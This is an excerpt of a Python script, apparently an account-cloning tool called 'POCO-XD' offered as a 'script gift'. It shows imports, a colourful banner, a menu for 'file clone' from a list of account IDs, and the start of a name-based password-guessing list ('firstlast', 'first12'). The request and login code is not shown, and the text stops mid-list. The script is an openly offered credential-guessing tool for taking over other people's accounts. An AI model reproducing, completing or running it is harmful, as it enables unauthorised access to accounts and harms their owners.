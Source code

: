 #--------------------< IMPORT >--------------------#
import requests,random,uuid,string,hashlib,json,os,base64,zlib,pip,urllib,urllib3,platform,math,smtplib,os,base64,zlib,pip,urllib
from os import path
from urllib.request import urlopen
try:
	import os,requests,json,time,re,random,sys,uuid,string,subprocess
	from string import *
	from concurrent.futures import ThreadPoolExecutor as tred
except ModuleNotFoundError:
	print('<[=]> INSTALLING MISSING MODULES...');os.system('pip install requests futures==2 > /dev/null')
except:pass
#--------------------< LOOP >--------------------#
loop=0;oks=[];cps=[];twf=[];pcp=[];id=[];tokenku=[];user=[];plist=[]
#--------------------< SYS >--------------------#
sys.stdout.write('\x1b]2; <[POCO-XD]>\x07')
#--------------------< COLOUR >--------------------#
G="\x1b[38;5;46m";W="\x1b[38;5;15m";R="\x1b[38;5;160m";B="\033[1;90m";Y="\033[1;33m";T="\033[1;34m";P="\x1b[38;5;205m"
#--------------------< STYLE >--------------------#
xd=f"{R}<{W}={R}>{G}";xd1=f"{R}<{W}1{R}>{G}";xd2=f"{R}<{W}2{R}>{G}";xd3=f"{R}<{W}3{R}>{G}";xd4=f"{R}<{W}4{R}>{G}";xd5=f"{R}<{W}5{R}>{G}";xd6=f"{R}<{W}6{R}>{G}";xd0=f"{R}<{W}0{R}>{G}";xdx=f"{R}<{W}?{R}>{G}";xdxx=f"{R}:{G}"
#--------------------< CLEAR >--------------------#
def clear():os.system('clear');print(logo)
def linex():print(f'{W}──────────────────────────────────────────────────')
#--------------------< LOGO >--------------------#
logo = f"""
      {G}  _____   _____  _______  _____ 
      {W} |_____] |     | |       |     |
      {G} |       |_____| |_____  |_____| {W}1.0
{W}──────────────────────────────────────────────────
{xd} OWNER    {xdxx} MR-POCO
{xd} TOOLTYPE {xdxx} FILE{R}[{W}ALL-COUNTRY{R}]{G}CLONE
{xd} STATUS   {xdxx} SCRIPT GIFT
{W}──────────────────────────────────────────────────"""
#--------------------< MAIN MENU >--------------------#
def poco():
    clear();print(f"{xd1} START FILE CLONE ");print(f"{xd0} EXIT CLONING");linex();sadiya=input(f"{xdx} SELECT {xdxx} ")
    if sadiya in ['1']:___file___()
    elif sadiya in ['2']:___random___()
    elif sadiya in ['0']:exit()
    else:linex();print(f'{xd} OPTION NOT FOUND ');linex();time.sleep(1);print(f"{xd} TRY AGAIN");time.sleep(1);poco()
#--------------------< FILE MENU >--------------------#
def ___file___():
	clear();print(f'{xd} EXAMPLE {xdxx} /sdcard/poco.txt');linex();file=input(f"{xdx} ENTER FILE NAME {xdxx} ")
	try:
		fo = open(file,'r').read().splitlines()
	except FileNotFoundError:
		linex();print(f'{xd} OPTION NOT FOUND ');linex();time.sleep(1);print(f"{xd} TRY AGAIN");time.sleep(1);___file___()
	clear();print(f'{xd1} METHOD {R}|{G}M1{R}|');print(f'{xd2} METHOD {R}|{G}M2{R}|');linex();methd=input(f"{xdx} SELECT {xdxx} ")
	clear();print(f'{xd} NOTE {xdxx} AUTO PASSWORD ONLY BD WORKING ');linex();print(f'{xd1} AUTO {R}|{G}23{R}|{G} PASSWORD CLONE');print(f'{xd2} MANUAL PASSWORD CLONE');linex();ppp=input(f"{xdx} SELECT {xdxx} ")
	if ppp in ['1']:
		plist.append('firstlast')
		plist.append('first last')
		plist.append('first12')